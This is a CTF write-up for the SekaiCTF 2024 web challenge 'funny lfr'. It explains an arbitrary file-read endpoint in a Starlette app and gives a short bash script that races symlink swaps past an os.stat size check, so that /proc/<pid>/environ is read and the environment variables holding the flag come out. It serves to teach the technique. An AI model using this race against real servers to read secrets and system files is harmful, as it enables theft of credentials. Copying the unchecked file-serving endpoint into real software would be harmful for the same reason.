 ```yaml
---
title: "SEKAI 24 - Funny Lfr"
date: 2024-08-30T11:01:21+01:00
tags: ["ctf", "write-up", "sekaictf"]
author: "hxuu"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "CTF write-up for Funny Lfr"
summary: "The article explains exploiting a race condition in a Starlette app to bypass `os.stat` checks, using symlinks, and ultimately retrieving the flag from `/proc/self/environ`."
canonicalURL: ""
disableHLJS: false
disableShare: false
hideSummary: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
editPost:
    URL: "https://github.com/hxuu/content"
    Text: "Suggest Changes"
    appendFilePath: true
---
```


## Challenge Description

* name: funny lfr
* category: web exploitation
* points: 183
* solves: 36 solves

You can access the challenge via SSH:
```bash
ncat -nlvp 2222 -c "ncat --ssl funny-lfr.chals.sekai.team 1337" & ssh -p2222 user@localhost
```
SSH access is only for convenience and is not related to the challenge.

## Analysis

We are given the following source files:

```bash
├── app.py
└── Dockerfile
```

Which represent a simple [Starlette](https://www.starlette.io/) application:

```python
from starlette.applications import Starlette
from starlette.routing import Route
from starlette.responses import FileResponse


async def download(request):
    return FileResponse(request.query_params.get("file"))


app = Starlette(routes=[Route("/", endpoint=download)])
```

And a Dockerfile

```bash
FROM python:3.9-slim

RUN pip install --no-cache-dir starlette uvicorn

WORKDIR /app

COPY app.py .

ENV FLAG="SEKAI{test_flag}"

CMD ["uvicorn", "app:app", "--host", "0", "--port", "1337"]
```

At first glance the challenge seems very simple. You make a request to `/?file=<path>`
and get the file contents displayed to you.

### `Inside SSH`

![inside-ssh](/images/2024-08-30-11-28-28.png)

The flag as highlighted by the Dockerfile is stored inside an environment variable
called `FLAG`. Doing a quick google search, we can see that environment variables
in linux systems are stored in the `/proc/pid/environ` file.

With that knowledge in hand, we should get the flag just by getting the results of
`/proc/self/environ` which stores the environment variables of the current running process.

Right?

![right?](/images/2024-08-30-11-38-10.png)

We got nothing... That's weird.

We know the application should return the contents of the files we ask for. However,
asking for `/proc/self/environ` doesn't return anything. Why?

Well, the python application is a Starlette application that adheres to ASGI specs,
the FileResponse class is responsible for returning files to the client. Before serving
a file, FileResponse checks the file's size using the os.stat syscall.

### `from Starlette source code`

![stat-check](/images/2024-08-30-11-52-53.png)

The `os.stat` function retrieves various attributes about a file, such as its size, modification time, and permissions. When `os.stat` is called on a file, it checks the filesystem for this information.

However, in the case of `/proc/self/environ`, which resides within the `procfs` virtual filesystem (VFS), there’s a unique situation. The `procfs` VFS provides access to kernel and process information, and many files within it are not regular files but rather interfaces to the kernel's data structures. These files often have special behaviors, and their contents may be dynamically generated when accessed.

When `os.stat` **checks** `/proc/self/environ`, it reports the file size as zero because, in many cases, the file doesn’t have a traditional size; it's an interface to process-specific information that’s only generated on demand. Consequently, when `FileResponse` sees a size of zero, it might interpret this as an empty or non-existent file, even though reading from `/proc/self/environ` would normally return environment variables for the process.

This behavior can lead to the application not returning any content when asked for `/proc/self/environ`, despite the file being non-empty in a traditional sense. The mismatch between how `os.stat` reports the file's size and the file's actual contents in `procfs` **is the root cause of this issue.**


---

So, what can we do then?

It turns out, we can trigger a race condition to do the following:

1. request a file whose size is greater than 0.
2. right after `os.stat` and before the actual **read**, we swap the latter file,
with the desired file which is `/proc/pid/environ`.

To achieve such a thing, we can make use of [symlinks](https://en.wikipedia.org/wiki/Symbolic_link), create a symlink that points
to a bigger file, bypass the `os.stat` step, then right before the file read, we change
the link to `/proc/pid/environ` and successfully get the flag.


## Exploitation

To trigger the race condition, let's first create a bash script that creates a large file,
create a symlink to it, and then create an infinite loop which swaps the links between this file
and `/proc/pid/environ`.

> Note that you should replace pid with the actuall process id of the running python application.
You can figure that using `ps aux`. pid=7 in my case.

### `solve.sh`

```bash
#!/usr/bin/env bash

cat /etc/passwd > /home/user/big-file.txt

ln -s big-file.txt /home/user/the-link

while true; do
    ln -sf /proc/7/environ          /home/user/the-link
    ln -sf /home/user/big-file.txt  /home/user/the-link
done
```

Running this on remote, and doing few curls of the `the-link` file should give us the flag.

![solve](/images/2024-08-30-12-32-01.png)

---

Flag is: `SEKAI{b04aef298ec8d45f6c62e6b6179e2e66de10c542}`

Things we learned from this challenge:

Here are the key lessons from the challenge:

- **`os.stat` and `procfs`**: Learned how `os.stat` retrieves file attributes and why it reports `/proc/self/environ` as size zero in `procfs`.

- **Race Condition Exploit**: Discovered how to exploit race conditions using symlinks to bypass `os.stat` and read sensitive files.

- **Symlink Usage**: Learned to manipulate file paths using symlinks for exploitation purposes.
